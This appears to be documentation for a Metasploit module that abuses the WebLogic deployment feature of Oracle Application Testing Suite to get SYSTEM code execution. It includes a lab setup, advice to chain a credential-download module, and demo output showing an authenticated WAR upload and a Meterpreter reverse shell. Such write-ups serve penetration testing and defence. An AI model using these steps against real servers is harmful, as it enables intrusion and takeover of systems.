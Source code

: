 ## Description

Oracle Application Testing Suite (OATS) is a comprehensive, integrated testing solution for web applications, web services, packaged Oracle applications, and Oracle databases. OATS is part of an application deployed in the WebLogic service on port 8088, which also includes these tools: Administrator, OpenScript, Oracle Load Testing, and Oracle Test Manager.

In the administrator console, the deployement feature can be abused to upload an arbitrary WAR file, allowing remote code execution under the context of SYSTEM. Authentication is required.


## Vulnerable Application

The following is the exact setup I used to test and analyze the vulnerability:

- Windows Server 2008 R2 x64 (other Windows systems are also supported)
  - .Net Framework 3.5 enabled (from add/remove features)
  - IE ESC (from Server Manager) disabled
  - 8GB of RAM (at least more than 4GB will be used to run OATS)
  - Duel-Core processor
- oats-win64-full-13.3.0.1.262.zip (x86 did not work for me)
- Jdk-7u21-windows-x64.exe
- OracleXE112_Win64.zip (Newer version 18c did not work well for me)
- Firefox (I had to install this because IE on Win2k8 is completely outdated)
- Adobe Flash installed (IE ESC needs to be disabled in order to install this)

For installation instructions, please refer to the Oracle Application Testing Suite Installation Guide.

## Notes

For Oracle Application Testing Suite (OATS), you may use the auxiliary/gather/oats_downloadservlet_traversal module to download the server's encrypted credentials, decrypt them using a third-party tool, and then use this module to gain remote code execution.

## Credit

Special thanks to Steven Seeley to assist on the development of the Metasploit module.

## Demo

```
msf5 exploit(windows/http/oats_weblogic_console) > check
[*] 172.16.135.128:8088 - The target service is running, but could not be validated.
msf5 exploit(windows/http/oats_weblogic_console) > run

[*] Started reverse TCP handler on 172.16.135.1:4444 
[+] Logged in as oats:VeryPhat1337
[*] Ready for war. Codename "lawrence" at 6256 bytes
[*] FRSC value: 0x59c5c771ae7d83c8440d7c45d2610dca5a0aa304a9e89e4c
[*] Server replies: "The file lawrence.war has been uploaded successfully to C:\\OracleATS\\oats\\servers\\AdminServer\\upload"
[+] Operation "lawrence" is a go!
[*] Code 200 on "lawrence" request
[*] Sending stage (53866 bytes) to 172.16.135.128
[*] Meterpreter session 1 opened (172.16.135.1:4444 -> 172.16.135.128:49337) at 2019-05-18 18:07:27 -0500
[+] Successfully undeployed lawrence.war

meterpreter >
```
